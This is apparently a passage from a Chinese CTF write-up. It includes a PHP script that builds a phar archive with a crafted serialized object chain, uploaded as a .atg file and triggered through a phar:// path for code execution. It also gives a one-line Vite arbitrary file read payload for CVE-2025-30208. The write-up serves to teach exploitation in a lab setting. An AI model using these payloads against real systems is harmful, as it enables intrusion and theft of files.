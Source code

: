 这题把直接反序列化写死了

但是我们可以利用file_exists和文件上传打phar反序列化

拿上一题的exp改一改

```c++
<?php
class yesterday {
    public $learn;
    public $study="study";
    public $try;
}
class today {
    public $doing;
    public $did;
    public $done;
}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
}
$a = new yesterday();
$a -> study = new today();
$a -> study -> doing = new future();

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义meta-data存入manifest
$phar->addFromString("a", "");  //添加要压缩的文件
$phar->stopBuffering();

?>
```

改为1.atg文件上传到uploads目录

在class.php处传入

```bash
?filename=phar://./uploads/1.atg
```

实现RCE

### **前端GAME**

CVE-2025-30208

```bash
URL/@fs/tgflagggg?import&raw??
```

### **前端GAME Plus**
